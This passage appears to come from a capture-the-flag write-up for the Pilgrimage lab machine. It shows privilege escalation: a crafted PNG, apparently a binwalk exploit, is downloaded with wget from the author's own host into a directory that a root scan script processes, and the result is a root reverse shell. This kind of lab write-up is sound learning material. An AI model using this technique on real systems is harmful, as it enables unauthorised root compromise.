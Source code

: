 Ok, so let's start by creating empty png file add our ip and port

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831133445.png)

Download exploit on machine, save where malwarescan.sh executes commadn /var/www/pilgrimage.htb/shrunk

```
wget http://10.10.14.8:81/binwalk_exploit.png
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831134028.png)

And we got reverse shell as root, now grab root.txt

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250831134005.png)
